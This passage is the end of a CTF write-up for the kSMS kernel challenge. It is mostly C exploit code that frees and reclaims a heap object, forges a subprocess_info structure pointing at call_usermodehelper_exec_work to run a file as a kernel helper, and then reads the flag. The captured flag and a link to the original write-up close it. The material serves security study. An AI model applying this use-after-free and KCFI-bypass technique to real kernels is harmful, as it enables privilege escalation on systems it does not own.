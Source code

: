 ```c  

   delete_secmsg(victim_idx);

   puts("[+] freed victim idx 1");

   victim_idx = add_secmsg(buf, 0x100, 5000 - 1);  
   printf("[+] re-allocated victim idx %d\n", victim_idx);

   // make sure kthread is sleeping on our thread  
   sleep(2);

   delete_secmsg(victim_idx);  
   puts("[+] freed victim idx 2");

   memset(buf, 0x45, sizeof(buf));

   heap_leak_1 -= 0x8;

   subprocess_info_t *info = (subprocess_info_t*)buf;  
   info->work.data = 0x0000000fffffffe0;  
   info->work.func = kaslr_base + 0xcb9b0; // call_usermodehelper_exec_work  
   info->work.prev = heap_leak_1 + 0x8;  
   info->work.next = heap_leak_1 + 0x8;  
   info->path = heap_leak_1 + 0x70;  
   info->argv = heap_leak_1 + 0x80;  
   info->envp = 0x0;  
   info->cleanup = 0x0;  
   info->init = 0x0;  
   info->data = 0x0;  
   info->complete = 0x0;  
   info->wait = 0x2; // UMH_WAIT_PROC;

   strcpy(buf + 0x70, "/jail/a");  
   *(uint64_t*)(buf + 0x80) = heap_leak_1 + 0x70;  
   *(uint64_t*)(buf + 0x88) = 0x0;

   if (write(ss[0], buf, 512 - 0x140) < 0)  
       err_exit(1, "[-] write");  
   puts("[*] reclaimed victim");

   puts("[+] waiting for cmd to be executed...");  
   sleep(5);  
   puts("[+] cmd should be done");

   puts("[+] fixing skb alloc");  
   memset(buf, 0x0, sizeof(buf));  
   add_secmsg(buf, 0x100, 5000 - 1);  
   puts("[+] done");

   puts("[+] reading flag");  
   system("cat /jail/flag");  
   puts("");  
   puts("[+] expl done");  
   return 0;  
}  
```

## Flag  
`flag{g00d_j0b_1f_y0u_us3d_5ubpr0c3ss_1nf0_t0_byp455_kcf1_s0_3z}`

Original writeup
(https://github.com/TeamItaly/TeamItalyCTF-2023/blob/master/kSMS/README.md).